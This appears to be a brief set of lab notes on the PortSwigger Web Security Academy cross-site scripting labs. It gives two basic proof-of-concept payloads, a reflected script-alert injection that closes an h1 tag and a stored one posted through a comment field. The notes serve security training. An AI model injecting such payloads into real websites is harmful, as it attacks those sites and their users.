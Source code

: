 # DOM-Based XSS  Cross-site scripting

https://portswigger.net/web-security/all-labs#cross-site-scripting


### LAB: Reflected XSS into HTML context with nothing encoded

```
Payload : '</h1><script>alert(1)</script>
```

### Lab: Stored XSS into HTML context with nothing encoded
```
Enter the following into the comment box: 
Payload: comment=<script>alert(2)</script>
```